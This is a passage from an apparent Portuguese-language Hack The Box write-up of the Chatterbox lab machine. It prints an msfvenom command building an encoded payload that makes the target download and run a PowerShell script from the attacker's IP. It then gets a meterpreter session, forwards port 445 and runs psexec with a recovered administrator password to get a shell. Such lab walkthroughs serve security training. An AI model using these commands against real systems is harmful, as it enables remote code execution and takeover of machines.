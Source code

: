 ![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u2.png)

Show, agora setamos nosso handler no msfconsole (ele gera um arquivo .rc também junto com o payload)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u3.png)

Geramos o payload para executar o powershell_attack.txt (após mover ele para a pasta de trabalho)

`msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://10.10.16.117/powershell_attack.txt')\"" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u4.png)

Jogamos ele dentro do exploit

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u5.png)

Agora executamos o powershell_attack.txt na máquina e Recebemos a conexão no handler

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u6.png)

Tá, blz mas como podemos aproveitar isso? Lembra que eu tenho uma senha de administrador local? Então, será que não tem nenhuma porta 445 da vida ai rodando pra eu rodar um psexec?

Vamos verificar

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u7.png)

Está ai ela! Sendo rodada localmente, vamos fazer um port forwading dele para nossa máquina através do meterpreter

> portfwd add -l 445 -p 445 -r 127.0.0.1

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u8.png)

Confirmando na nossa máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u9.png)

Rodo o psexec e ganho o shell

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u10.png)

Também consigo rodar diretamente através do meterpreter com o `windomws/smb/psexec`

> use exploit/windows/smb/psexec

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-chatterbox/C_u11.png)

